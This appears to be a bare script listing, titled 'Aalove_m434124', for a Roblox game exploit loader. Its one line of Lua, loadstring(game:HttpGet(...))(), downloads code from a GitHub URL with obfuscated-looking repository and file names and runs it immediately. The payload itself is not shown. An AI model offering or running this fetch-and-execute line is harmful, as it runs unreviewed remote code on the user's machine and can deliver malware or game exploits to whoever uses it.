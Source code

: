 # Aalove_m434124
loadstring(game:HttpGet("https://raw.githubusercontent.com/chiepz/aslbnmnkhby7e/main/crqhryvjahdjwysrnegsf%5Csgd"))()
